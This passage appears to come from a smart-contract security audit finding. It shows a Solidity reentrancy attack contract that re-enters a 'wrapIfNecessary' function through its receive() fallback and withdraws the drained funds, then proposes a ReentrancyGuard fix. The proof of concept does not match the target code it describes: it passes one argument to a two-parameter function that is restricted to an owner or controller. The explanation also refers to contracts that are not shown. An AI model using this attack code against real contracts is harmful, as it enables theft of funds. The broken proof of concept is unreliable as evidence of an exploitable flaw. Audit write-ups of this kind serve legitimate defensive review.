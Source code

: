 ```solidity
contract ReentrancyAttack {
    VulnerableAccount public vulnerableAccount;
    MockReserve public mockReserve;

    constructor(VulnerableAccount _vulnerableAccount, MockReserve _mockReserve) {
        vulnerableAccount = _vulnerableAccount;
        mockReserve = _mockReserve;
    }

    // Fallback function to exploit reentrancy
    receive() external payable {
        // Attempt to reenter the vulnerable function
        if (address(vulnerableAccount).balance > 0) {
            vulnerableAccount.wrapIfNecessary(1 ether); // Adjust amount as needed
        }
    }

    function attack() public {
        // Start the attack by calling wrapIfNecessary
        vulnerableAccount.wrapIfNecessary(1 ether);
    }

    function withdraw() public {
        // Withdraw any stolen funds
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

Explanation:

- MockReserve Contract: This simulates the `reserve` contract where the `wrap` function is called. It doesn't contain actual logic but represents an external contract that can be manipulated.
- VulnerableAccount Contract: This is a simplified version of the Account contract. It contains the `wrapIfNecessary` function that can be exploited.
- ReentrancyAttack Contract: This is the attacker's contract. It includes a fallback function to exploit reentrancy. When `wrapIfNecessary` is called, it triggers the fallback function to reenter and potentially exploit the vulnerability.


### Mitigation

1. Use a Reentrancy Guard: 
Introduce a reentrancy guard modifier to prevent reentrant calls to critical functions. This ensures that the function cannot be re-entered before its execution is complete.
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract Account is ReentrancyGuard {
    // Other code

    function wrapIfNecessary(UFixed18 amount, bool wrapAll) public nonReentrant ownerOrController {
        if (DSU.balanceOf().lt(amount)) {
            UFixed6 usdcBalance = USDC.balanceOf();
            if (!usdcBalance.eq(UFixed6Lib.ZERO))
                wrap(wrapAll ? UFixed18Lib.from(usdcBalance) : amount);
        }
    }

    // Other code
}
```
